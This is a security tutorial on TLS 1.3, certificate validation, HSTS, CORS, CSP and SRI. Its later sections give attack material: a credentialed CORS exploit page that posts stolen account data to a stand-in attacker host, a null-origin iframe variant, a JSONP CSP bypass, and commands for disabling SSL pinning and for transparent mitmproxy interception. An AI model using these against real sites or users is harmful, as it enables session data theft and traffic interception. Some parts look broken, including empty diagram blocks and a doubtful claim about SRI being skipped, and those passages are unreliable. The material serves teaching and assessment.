


# Lesson 4: Transport & Browser Security

## 1. First-Principles Intuition & Invariants

The web's security model rests on two distinct but deeply coupled trust systems. The first is *transport-layer trust*: the guarantee that the bytes leaving your browser arrive unmodified at the intended server, and that the server is who it claims to be. The second is *origin-level trust*: the browser's enforcement of boundaries between documents from different sources, ensuring that a script loaded from `evil.com` cannot read a cookie set by `bank.com`. Both systems exist because the internet's underlying protocols — TCP, IP, DNS — were designed for resilience and connectivity, not confidentiality or authenticity. Every mechanism covered in this lesson is a retrofitted answer to adversaries who proved, empirically, that an open network is a hostile one.

For offensive security practitioners and hardware researchers alike, the practical implication is that these trust systems are not monolithic. Each is a layered composition of cryptographic primitives, protocol state machines, and browser policy engines, and each layer carries its own attack surface. A flaw in certificate validation is categorically different from a misconfigured CORS policy, but both can be leveraged to extract sensitive data from an authenticated session. Understanding *why* each mechanism exists — what specific attack class it defeats, and what invariant it enforces — is prerequisite to exploiting it when it is absent or misconfigured.

### The Foundational Problem: Dolev-Yao Adversaries on the Wire

The formal security model underlying TLS is the Dolev-Yao threat model: assume the adversary controls the network completely. They can intercept, replay, modify, or inject any message in transit. This is not theoretical paranoia. On a shared Wi-Fi segment, ARP spoofing trivially positions an attacker as a man-in-the-middle. BGP hijacking can redirect entire ASes worth of traffic. DNS cache poisoning can point a domain at an attacker-controlled IP before the client ever opens a TCP connection. The TLS protocol's core design invariant is that *none of these network-layer compromises should allow an adversary to recover plaintext or forge a valid connection to a legitimate origin*, provided the client correctly validates the server's certificate and the cryptographic primitives hold.

This invariant has a critical asterisk: the word "correctly." The history of TLS vulnerabilities — from BEAST to POODLE to DROWN to Heartbleed — is largely a history of implementations, protocol versions, and downgrade paths that violated this invariant in subtle ways. The protocol specification can be sound while the implementation is catastrophically broken, and the attack surface of a TLS stack spans millions of lines of C code, hardware acceleration paths, and JIT-compiled JavaScript engines.

### The Origin as a Security Principal

The browser's Same-Origin Policy (SOP) addresses a different but equally fundamental problem. When a browser loads `https://app.example.com`, it executes JavaScript, renders HTML, and stores cookies — all in the context of that origin. If a second tab is simultaneously loaded with `https://evil.com`, the browser must enforce that the malicious page's scripts cannot reach into the first tab's DOM, read its cookies, or issue authenticated requests on its behalf and read the responses. Without SOP, the web as an application platform would be impossible: every piece of JavaScript would be a universal credential harvester.

The origin is defined as the tuple `(scheme, host, port)`. This definition seems obvious until you encounter its edge cases. `http://example.com` and `https://example.com` are distinct origins despite sharing a hostname, because the scheme differs. `https://example.com:443` and `https://example.com` are the *same* origin, because port 443 is the default for HTTPS. `https://sub.example.com` and `https://example.com` are different origins entirely. These distinctions become deeply important when analyzing CORS bypass techniques, where an attacker manipulates the origin comparison logic or exploits a misconfigured server that reflects arbitrary `Origin` headers in `Access-Control-Allow-Origin` responses.

### Cryptographic Primitives Underpinning TLS 1.3

TLS 1.3, standardized in RFC 8446 and the only version that should be deployed on production infrastructure, discards the complexity of its predecessors and rationalizes around three core cryptographic operations. Key exchange uses Diffie-Hellman over elliptic curves (ECDHE), specifically the X25519 or P-256 curves. Authentication uses digital signatures, with Ed25519 and ECDSA over P-256 as the preferred algorithms. Symmetric encryption after handshake uses AEAD ciphers — AES-256-GCM or ChaCha20-Poly1305 — which simultaneously provide confidentiality and integrity in a single pass, eliminating the MAC-then-encrypt vulnerabilities that plagued TLS 1.2.

The elimination of RSA key exchange in TLS 1.3 is architecturally significant. In TLS 1.2, the client could encrypt the session's pre-master secret directly with the server's RSA public key. This meant that an adversary who recorded encrypted traffic and later obtained the server's private RSA key — through a breach, a court order, or a hardware side-channel attack — could retroactively decrypt every past session. TLS 1.3's mandatory use of ephemeral Diffie-Hellman guarantees *forward secrecy*: each session uses a freshly generated key pair, and the session keys are cryptographically independent of the server's long-term identity key. Recording traffic today provides no benefit to an attacker who compromises the server next year.

---

## 2. Core Architecture & Mechanics

### The TLS 1.3 Handshake: A State Machine Dissection

The TLS 1.3 handshake is designed to complete in a single round-trip under normal conditions, down from TLS 1.2's two round-trips. The protocol achieves this by having the client speculatively send its key share in the first message, allowing the server to derive the session keys and begin encrypting its own response immediately.



The curly braces above denote encryption under the handshake traffic keys, which are derived immediately after the ECDHE exchange. This means the server's certificate travels encrypted over the wire in TLS 1.3, an improvement over TLS 1.2 where certificates were visible to passive observers. For offensive researchers intercepting traffic, this means certificate metadata — the server's identity, the issuing CA, the Subject Alternative Names — is no longer trivially visible to a passive listener positioned on the wire.

The key derivation schedule in TLS 1.3 uses HKDF (HMAC-based Key Derivation Function, RFC 5869) in a staged extraction-expansion pattern. The protocol distinguishes between the early secret (derived from the PSK or zero if no session resumption), the handshake secret (derived by mixing the ECDHE shared secret into the early secret), and the master secret (derived by mixing in a "derived" value from the handshake secret). From the master secret, separate key material is expanded for client-to-server application traffic, server-to-client application traffic, and exporter keying material. This staged derivation ensures that compromising one key tier does not roll back security for other tiers.

### Certificate Validation Chains: PKI Trust Mechanics

When the server sends its certificate during the handshake, the browser must answer two questions: "Is this certificate cryptographically valid?" and "Should I trust the entity who issued it?" The first question is answered by verifying the certificate's signature against the issuer's public key, checking that the certificate has not expired, and confirming that the domain in the TLS SNI extension matches a name in the certificate's Subject Alternative Names field. The second question requires walking the certificate chain.

```text
Root CA Certificate (self-signed, in OS/browser trust store)
    |
    | signs
    v
Intermediate CA Certificate
    |
    | signs
    v
End-Entity (Leaf) Certificate
    (Contains server's public key, SANs, validity period)
```

Root CA certificates are distributed through the operating system trust store (NSS on Linux, Windows Certificate Store, macOS Keychain) or the browser's bundled store (Firefox maintains its own). There are approximately 150 trusted root CAs in a typical browser's trust store, and each one is a universal trust anchor: a certificate signed by any of them will be accepted for any domain. This creates a systemic vulnerability — a single compromised or malicious CA can issue certificates for any domain on the internet. The DigiNotar compromise of 2011, where an Iranian attacker obtained fraudulent certificates for `*.google.com` and used them to intercept Gmail traffic, demonstrated this risk at scale.

Certificate Transparency (RFC 6962) is the most significant structural mitigation for rogue CA issuance. CAs are required to submit every issued certificate to publicly auditable, append-only logs before browsers will accept them. The TLS handshake may carry Signed Certificate Timestamps (SCTs) proving the certificate was logged. Browsers like Chrome enforce CT for all certificates, meaning a CA cannot issue a certificate covertly — any such certificate would be detectable by monitoring the CT logs. For red team operators, this has a practical implication: certificates issued for lab domains from a rogue CA in a corporate trust store will not appear in public CT logs and will trigger CT enforcement failures in hardened browsers.

Certificate revocation is a persistent weakness in PKI. When a private key is compromised, the CA issues a Certificate Revocation List (CRL) or runs an OCSP (Online Certificate Status Protocol) responder. Both approaches have operational problems. CRLs are large and downloaded infrequently. OCSP requires a real-time network request to the CA's server for every new TLS session, introducing latency and a privacy leak (the CA learns which sites the user visits). Most browsers implement "soft-fail" OCSP: if the OCSP responder is unreachable, the certificate is accepted anyway, meaning an adversary who intercepts and blocks OCSP traffic can use a revoked certificate undetected. Chrome largely abandoned OCSP in favor of CRLSets — a compressed, browser-vendor-pushed list of revoked high-value certificates — and relies on CT for broader revocation signaling.

### HSTS and the HTTPS Preloading Invariant

HTTP Strict Transport Security (HSTS, RFC 6797) addresses a specific and practical attack: the SSL stripping attack first demonstrated by Moxie Marlinspike at Black Hat 2009. If a user navigates to `http://bank.com` (note HTTP, not HTTPS), an active MitM can serve them a plain HTTP version of the site while silently proxying HTTPS to the real server. The user sees no browser warning because they never attempted an HTTPS connection that failed — they simply never initiated one.

HSTS works by having the server include the `Strict-Transport-Security` header in HTTPS responses, instructing the browser to refuse all future HTTP connections to that origin for the specified `max-age` duration and optionally all subdomains. The browser caches this policy and will upgrade HTTP requests to HTTPS internally, before any network request is made. This eliminates the window for SSL stripping on subsequent visits.

The residual vulnerability is the *first visit*: before the browser has ever seen the HSTS header, it has no policy and can be stripped. The HSTS preload list (hstspreload.org, bundled into Chrome, Firefox, Safari, and Edge) addresses this by allowing domains to register themselves for hardcoded HTTPS-only enforcement before any user ever visits. Getting onto this list requires `max-age` of at least 31,536,000 seconds, `includeSubDomains`, and the `preload` directive. Removal from the list takes months to propagate, so the decision is effectively irreversible at human timescales — a constraint that matters for domain reuse in offensive infrastructure planning.

### Same-Origin Policy: Enforcement Mechanics in the Browser

SOP enforcement is not a single check but a family of policies applied at different points in the browser's rendering engine. When JavaScript running at `https://app.example.com` attempts to access `document.domain`, navigate an `<iframe>`, perform an `XMLHttpRequest`, or access a resource through the Fetch API, the browser evaluates whether the requesting context and the target resource share the same origin `(scheme, host, port)` tuple.

For network requests specifically, the distinction between "simple" and "preflighted" requests is architecturally important. A "simple" cross-origin request — a `GET`, `HEAD`, or `POST` with certain restricted headers and a `text/plain`, `application/x-www-form-urlencoded`, or `multipart/form-data` content type — is *sent* by the browser but the *response is withheld* from the requesting JavaScript unless the server includes appropriate CORS headers. This is a critically misunderstood behavior: SOP does not prevent the request from being issued. It prevents the script from reading the response. This means that `GET` requests and form-based `POST` requests to cross-origin endpoints will execute server-side effects even without CORS, and the CSRF attack class exists precisely because of this property.

For requests that do not qualify as "simple" — anything using `PUT`, `DELETE`, `PATCH`, any custom headers like `Authorization` or `Content-Type: application/json` — the browser first issues an HTTP `OPTIONS` preflight request to the target origin. The server must explicitly authorize the actual request method and headers by responding with the appropriate `Access-Control-Allow-*` headers, or the browser will refuse to send the actual request entirely.



The `Access-Control-Max-Age` header tells the browser to cache the preflight result for the specified duration, avoiding a round-trip penalty on subsequent requests to the same endpoint. In production systems under heavy API load, failing to set this header can double the number of HTTP requests to an origin.

The most dangerous CORS misconfiguration is `Access-Control-Allow-Origin: *` combined with `Access-Control-Allow-Credentials: true`. The CORS specification explicitly prohibits this combination — credentialed requests cannot use a wildcard origin. However, the second most dangerous pattern is a server that dynamically reflects the requesting `Origin` header in the `Access-Control-Allow-Origin` response without validating it against a whitelist. An attacker who controls `evil.com` can issue a cross-origin credentialed request to such a server, and because the server reflects `Origin: https://evil.com` back as an allowed origin, the browser will expose the response to the attacking script. This pattern is endemic in legacy API implementations and is straightforward to detect with a targeted probe.

### Content Security Policy: The Second Line of Defense

CSP (Content Security Policy, specified in the W3C CSP Level 3 specification) operates on the assumption that an attacker has already managed to inject content into a page — through an XSS vulnerability, a compromised third-party script, or a network-level injection. Rather than preventing injection, CSP restricts what injected content can *do* by specifying allowlists for script sources, style sources, frame ancestors, form action targets, and connection endpoints.

The policy is delivered as an HTTP response header or a `<meta>` element (with significant limitations in the meta form). A realistic strict CSP for a modern single-page application looks like this:

```text
Content-Security-Policy:
  default-src 'none';
  script-src 'self' https://cdn.example.com 'nonce-r4nd0mb4s364';
  style-src 'self' 'nonce-r4nd0mb4s364';
  img-src 'self' data: https://img.example.com;
  connect-src 'self' https://api.example.com;
  font-src 'self';
  frame-ancestors 'none';
  base-uri 'self';
  form-action 'self';
  upgrade-insecure-requests;
```

The `nonce` directive is the foundation of a strict CSP. Each page load generates a cryptographically random nonce (at minimum 128 bits of entropy), and only `<script>` elements that carry a matching `nonce=` attribute will execute. An injected `<script>` tag that the attacker inserts does not know the nonce — it is generated server-side per request — so the browser will refuse to execute it. The `'unsafe-inline'` directive, which many legacy CSP deployments use because they cannot add nonces to all their scripts, completely defeats this protection: any injected inline script will execute.

The `'strict-dynamic'` directive extends nonce-based policy to dynamically loaded scripts. When `'strict-dynamic'` is present, a trusted script loaded via nonce is permitted to programmatically load further scripts — by creating `<script>` elements in the DOM — and those scripts are trusted by virtue of the trust chain rather than by their origin. This allows modern bundled JavaScript applications to load sub-modules without enumerating every CDN URL in the policy, but it also means that a compromised trusted script can load arbitrary attacker-controlled code. The trust delegation is transitive.

`frame-ancestors 'none'` replaces the older `X-Frame-Options: DENY` header and prevents the page from being embedded in any `<iframe>`, `<object>`, or `<embed>`. This defeats clickjacking attacks where an attacker overlays a transparent iframe of a legitimate application over a deceptive UI, tricking the user into clicking buttons on the legitimate application while believing they are interacting with the attacker's page.

### Subresource Integrity: Cryptographic Pinning at the HTML Layer

Subresource Integrity (SRI, W3C specification) addresses the supply-chain attack scenario where a CDN or third-party script host is compromised and begins serving malicious JavaScript. Without SRI, any `<script src="https://cdn.third-party.com/lib.js">` tag creates an unconditional trust relationship: if that URL ever serves different bytes, those bytes execute with the trust of the including page's origin.

SRI breaks this trust relationship by embedding a cryptographic hash of the expected resource directly in the HTML:

```html
<script
  src="https://cdn.example.com/library-3.4.1.min.js"
  integrity="sha384-oqVuAfXRKap7fdgcCY5uykM6+R9GqQ8K/uxQ9LCJGtzsx1YQyPkIjBPK8DgoxKP"
  crossorigin="anonymous">
</script>
```

The browser fetches the resource, computes its SHA-384 hash, and compares it against the value in the `integrity` attribute. If the hashes do not match — because the CDN was compromised, the file was silently updated, or the request was intercepted and the response modified — the browser refuses to execute the script and fires a CSP violation report. The `crossorigin="anonymous"` attribute is required because SRI verification requires the browser to access the response body for hashing, which requires a CORS-compatible fetch even for `<script>` elements.

Generating the correct integrity hash for a resource is a simple shell operation:

```sh
curl -sL https://cdn.example.com/library-3.4.1.min.js \
  | openssl dgst -sha384 -binary \
  | openssl base64 -A \
  | awk '{print "sha384-" $0}'
```

The practical weakness of SRI is that it pins to a specific version of a file. CDN-hosted libraries often serve the same URL with updated content (e.g., `jquery-3.x.min.js` where `3.x` is a floating minor-version pointer). SRI pins should therefore be used with fully versioned URLs. When an application uses a package manager like npm and inlines the hash into its build pipeline, SRI becomes a robust defense-in-depth layer against CDN-level supply-chain compromise.

---

## 3. High-Performance Optimization & Failure Modes

### TLS Session Resumption and 0-RTT Attack Surface

TLS 1.3 supports session resumption via pre-shared key (PSK) tickets, which allow a client that has previously completed a full handshake to present a ticket on reconnection and skip the ECDHE phase entirely. Under the right conditions, the client can even send application data in its first flight — 0-RTT data, also called early data — before the handshake is complete. This reduces reconnection latency to effectively zero additional round trips, which is significant for mobile clients on high-latency cellular networks.

The 0-RTT mechanism carries a well-specified limitation that practitioners frequently underestimate in production risk assessments: 0-RTT data is not protected against replay attacks. An adversary who can capture a TLS 0-RTT ClientHello and its associated early data can replay it to the server. The server cannot distinguish the replay from a legitimate retransmission. For this reason, the RFC 8446 specification explicitly states that application data sent as 0-RTT early data must be idempotent — safe to execute multiple times. `GET` requests that return data may be acceptable. Any request that changes server state — a payment, a login, a database write — must never be sent as 0-RTT data.

Servers can limit the replay window using anti-replay mechanisms (tracking nonces in a cache for the PSK's lifetime), but the IETF specification explicitly notes that these mechanisms impose significant state storage costs at scale and may not be practical for large deployments. Load balancers that terminate TLS must share this nonce state across all backend nodes, which requires distributed coordination. Misconfigured deployments that accept 0-RTT for state-mutating endpoints are a real and underappreciated attack surface in high-throughput APIs.

Detecting whether a target server accepts 0-RTT is straightforward with OpenSSL's command-line tooling:

```sh
# First connection: establish session and retrieve ticket
openssl s_client \
  -connect target.example.com:443 \
  -tls1_3 \
  -sess_out /tmp/session.pem \
  -ign_eof < /dev/null

# Second connection: attempt 0-RTT early data
echo -e "GET /api/endpoint HTTP/1.1\r\nHost: target.example.com\r\n\r\n" \
  | openssl s_client \
    -connect target.example.com:443 \
    -tls1_3 \
    -sess_in /tmp/session.pem \
    -early_data /dev/stdin
```

If the server responds with `0-RTT data accepted` in the handshake output and returns a valid application response before the handshake completes, 0-RTT is enabled. The assessment then turns to whether the server enforces idempotency for early data — which requires testing specific endpoints for state mutation.

### Certificate Pinning, Mispinning, and Interception Infrastructure

Certificate pinning — embedding a hash of the server's public key or certificate directly in the client application — eliminates the rogue CA trust problem by restricting acceptable certificates to a known set, regardless of what the browser's or OS's trust store says. HTTP Public Key Pinning (HPKP, RFC 7469) attempted to deliver pinning via an HTTP header mechanism and was subsequently deprecated by all major browsers after it became clear that a compromised server or malicious operator could deploy a header that permanently locked users out of a domain. Chrome removed HPKP support entirely in 2018.

For mobile applications and thick clients, however, certificate pinning implemented in the application layer remains a standard defense against traffic interception. Mobile security assessments routinely require bypassing this pinning to intercept HTTPS traffic with a tool like Burp Suite or mitmproxy. The standard technique involves patching the application binary with a tool like `objection` (built on Frida) to hook the SSL validation routines and return success unconditionally:

```sh
# Start objection after attaching to running app process
objection --gadget "com.example.targetapp" explore

# Within the objection REPL, disable SSL pinning
android sslpinning disable
```

This hooks common pinning implementations in OkHttp, TrustKit, and native `X509TrustManager` implementations. For applications that use custom native SSL validation through JNI or implement their own certificate comparison against bundled DER blobs, a manual Frida script targeting the specific comparison function identified through static analysis (via `jadx` or Ghidra) is required.

On the network interception infrastructure side, running mitmproxy as a transparent proxy for TLS analysis on a network segment requires routing the target traffic through the intercepting host and enabling IP forwarding alongside the proxy:

```sh
# Enable IP forwarding
echo 1 > /proc/sys/net/ipv4/ip_forward

# Redirect all HTTPS traffic on the interface to mitmproxy's transparent port
iptables -t nat -A PREROUTING \
  -i eth1 \
  -p tcp \
  --dport 443 \
  -j REDIRECT --to-port 8080

# Start mitmproxy in transparent mode
mitmproxy --mode transparent --ssl-insecure
```

The `--ssl-insecure` flag instructs mitmproxy not to validate upstream certificates — necessary when the target uses self-signed or internally-pinned certs that your interception CA has not signed. Without it, the proxy will refuse the connection when upstream certificate validation fails.

### CORS Misconfiguration Exploitation Workflow

The exploitability of a CORS misconfiguration depends on whether the endpoint requires credentials (session cookies or `Authorization` headers) and whether the server reflects arbitrary origins. The following is a systematic probe-and-exploit methodology for assessing a target API.

The first probe establishes whether the server reflects arbitrary origins:

```sh
curl -si \
  -H "Origin: https://attacker-controlled.com" \
  -H "Cookie: session=<captured_session_token>" \
  https://api.target.com/v1/account/profile \
  | grep -i "access-control"
```

A vulnerable response will contain `Access-Control-Allow-Origin: https://attacker-controlled.com` and `Access-Control-Allow-Credentials: true`. The exploit then follows as a cross-origin JavaScript payload hosted on a domain the attacker controls. The attacker induces the authenticated victim to visit their page, and the page issues the credentialed cross-origin fetch:

```html
<!DOCTYPE html>
<html>
<body>
<script>
  fetch("https://api.target.com/v1/account/profile", {
    credentials: "include"
  })
  .then(r => r.json())
  .then(data => {
    // Exfiltrate the response to the attacker's collection endpoint
    fetch("https://attacker-controlled.com/collect", {
      method: "POST",
      body: JSON.stringify(data)
    });
  });
</script>
</body>
</html>
```

A subtler variant exploits origins with broken prefix or suffix matching. If a server validates that the `Origin` header ends with `.example.com`, an attacker can register `evil.example.com` and pass the check. If it validates that the origin *contains* `example.com`, then `example.com.attacker.com` passes. If it validates using a permissive regular expression like `/example\.com/`, the same `example.com.attacker.com` subdomain bypasses it. The null origin — `Origin: null` — is sent by browsers when documents are loaded from `file://` URLs, sandboxed iframes, or cross-origin redirects, and servers that allowlist `null` are exploitable by embedding the malicious fetch in a sandboxed iframe:

```html
<iframe sandbox="allow-scripts allow-top-navigation"
        srcdoc='<script>/* credentialed fetch to target */</script>'>
</iframe>
```

### CSP Bypass Vectors and Policy Hardening

CSP bypasses fall into several categories that follow directly from the design of the directive grammar. The most common production bypass involves `unsafe-inline` or overly broad source allowlists. If `script-src` includes a CDN origin that hosts a JSONP endpoint — a URL that wraps arbitrary attacker-controlled data in a JavaScript callback — that CDN origin becomes a scriptable bypass:

```bash
# If script-src includes https://www.googleapis.com
# and googleapis.com hosts this JSONP endpoint:
<script src="https://www.googleapis.com/customsearch/v1?callback=alert(1)">
</script>
```

The browser fetches the URL from an allowed source, the response is `alert(1)(...)` which executes `alert(1)`, and the CSP provides no protection. The fix is to never include CDN origins in `script-src` when nonces or hashes can be used instead, and to audit every origin in a CSP policy for hosted JSONP, Angular template injection via `ng-app`, or similar scriptable endpoints.

A correctly deployed strict CSP using nonces and `'strict-dynamic'` with no `'unsafe-inline'` and no broad origin allowlists is exceptionally difficult to bypass without an application-layer vulnerability that allows the attacker to inject a nonce-carrying `<script>` element. The browser's enforcement is reliable — the remaining attack surface is in the server's nonce generation (predictable nonces are reusable) and in HTML injection that allows manipulation of a `<base>` element to redirect relative URLs, which `base-uri 'self'` closes.

Validating a deployed CSP against known bypass techniques without a live injection vector is efficiently done with Google's CSP Evaluator (csp-evaluator.withgoogle.com) or the equivalent offline tooling from the `csp-auditor` Burp Suite extension, which parses the policy and flags JSONP-able origins, `angular.js`-hosting origins, and deprecated directives.

### SRI Deployment Failures and Upgrade Path

SRI verification is bypassed when a resource is served without CORS headers and the requesting document requires `crossorigin="anonymous"`. The browser must receive `Access-Control-Allow-Origin: *` (or the specific origin) from the resource server for SRI to function, because the fetch must be a CORS-eligible request for the browser to access the response bytes for hashing. If the CDN does not emit CORS headers, removing `crossorigin="anonymous"` from the `<script>` tag allows the resource to load — but SRI verification is silently skipped. Attackers who can influence the CDN's CORS headers on a compromised resource can exploit this fallback. The correct configuration requires that CDN delivery of SRI-protected resources always emits `Access-Control-Allow-Origin: *`.

The build pipeline integration for SRI in a modern CI workflow uses `webpack-subresource-integrity` for Webpack-based applications, which computes hashes at build time and injects them into generated HTML. For multi-CDN or externally sourced dependencies, the integrity hash must be pinned in the application's dependency manifest and verified during the build step before the application is deployed. Automated monitoring of CT logs for unexpected certificates and of CDN-served asset hashes against a pinned baseline are complementary controls that catch supply-chain compromise before users are affected.
